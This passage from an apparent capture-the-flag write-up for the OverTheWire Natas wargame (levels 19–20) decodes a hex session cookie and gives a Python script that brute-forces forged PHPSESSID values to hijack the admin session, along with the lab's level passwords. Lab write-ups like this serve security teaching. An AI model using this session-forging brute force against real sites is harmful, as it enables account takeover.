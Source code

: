 ```
password: 4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs 
```

**[Natas19](http://natas19.natas.labs.overthewire.org)**  
The hint says that
```
This page uses mostly the same code as the previous level, but session IDs are no longer sequential...
```
Try to login with
```
username: a
password: a
```
We got hex value in session
```
3538332d61
```
Convert it to text
```
583-a
```
Delete cookie, repeat login again, we got
```
120-a
```
Assume that random a number and concat with your username, we try to brute force
```python
import requests
import string

url = 'http://natas19.natas.labs.overthewire.org/'
auth = ('natas19', '4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs')
i = 0;
while True:
    value = str(i) + '-admin';
    cookies = {'PHPSESSID': value.encode('utf-8').hex()}
    x = requests.post(url, auth=(auth), cookies=cookies)
    print(i, value.encode('utf-8').hex())
    i = i + 1;
    if ('You are an admin.' in x.text):
        print(x.text)
        break
```
```
username: natas20
password: eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF 
```

**[Natas20](http://natas20.natas.labs.overthewire.org)**  